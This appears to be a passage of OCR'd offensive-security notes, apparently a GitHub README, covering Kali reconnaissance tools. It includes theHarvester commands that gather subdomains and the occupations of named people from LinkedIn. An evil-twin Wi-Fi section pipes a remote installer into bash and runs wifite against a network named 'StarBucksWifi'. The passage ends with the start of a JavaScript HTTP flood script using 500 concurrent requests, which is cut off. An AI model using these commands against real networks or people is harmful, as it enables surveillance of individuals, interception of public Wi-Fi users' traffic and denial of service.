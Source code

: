 
Finds people or hidden site domains  
1. Example finds 200 hits of subdomains using <something>.kali.org from bing search engine
2. Example finds people named John Doe on linkedin and outputs their occupation.
```bash
theHarvester -d kali.org -l 200 -b bing

theHarvester -d "John Doe" -l 200 -b linkedin
```



Other tools

* maltego - search for possible social network of target email
* twofi - list most used words of target twitter profile
* urlcrazy - list fat fingered domain names 


# Evil twin attack

```bash
sudo apt install hcxdumptool
sudo apt install hcxtools
```

Download pyrit

```bash
curl https://raw.githubusercontent.com/Grezzo/pyrit-installer-for-kali-rolling/main/install-pyrit-kali-rolling-2021-1.sh | bash

```

```bash
sudo wifite -e StarBucksWifi
```

Restore wifi

```bash
sudo airmon-ng stop wlan0mon
```
wifite

# flooding network connection script

requires disabling of CORS in chrome browser

```js
  var CONCURRENCY_LIMIT = 500
    var queue = []

    async function fetchWithTimeout(resource, options) {
      const controller = new AbortController();
      const id = setTimeout(() => controller.abort(), options.timeout);
      return fetch(resource, {
        method: 'GET',
        mode: 'no-cors',
        signal: controller.signal
      }).then((response) => {
        clearTimeout(id);
        return response;
      }).catch((error) => {
        clearTimeout(id);
        throw error;
      });
    }

    async function flood(target) {
```